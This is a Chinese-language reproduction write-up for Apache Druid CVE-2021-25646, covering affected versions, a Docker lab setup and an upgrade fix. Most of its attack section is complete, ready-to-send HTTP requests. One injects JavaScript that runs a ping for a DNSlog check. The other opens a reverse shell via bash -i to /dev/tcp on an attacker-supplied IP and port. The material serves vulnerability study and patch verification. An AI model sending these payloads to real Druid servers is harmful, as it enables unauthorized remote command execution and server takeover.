



# Apache Druid 远程代码执行漏洞（CVE-2021-25646）

# 漏洞概述

Apache Druid是美国阿帕奇软件（Apache）基金会的一款使用Java语言编写的、面向列的开源分布式数据库。

Apache Druid 0.20.0和更早的版本存在访问控制错误漏洞，该漏洞允许经过身份验证的用户强制Druid运行用户提供的JavaScript代码，并执行服务器进程特权的代码。


# 影响版本 


```
Apache Druid < 0.20.1
```


# 搭建环境


```
为了复现方便，这里使用docker搭建环境
docker search docker-druid #搜索镜像
docker pull fokkodriesprong/docker-druid #拉取镜像
docker run --rm -i -p 8888:8888  fokkodriesprong/docker-druid #启动镜像
```

注：如果大家拉取镜像比较慢可以配置一下国内镜像源，这里我使用的是阿里云的加速源URL为:https://cr.console.aliyun.com/


\## 本机访问IP:888端口显示该页面表示启动成功



# 漏洞复现

\## POC使用DNSlog检测是否可以执行命令


```

POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```



\## 反弹shell

这里说一下踩的坑之前是用0.20.0版本做的复测，发现在0.20.0版本使用/bin/bash命令时服务器会报错,应该是做了过滤



所以改用了0.17.0版本来进行测试，其他版本请自测


```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/IP/PORT 0>&1')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```


**修复方式**

升级到最新版Apache Druid 0.20.1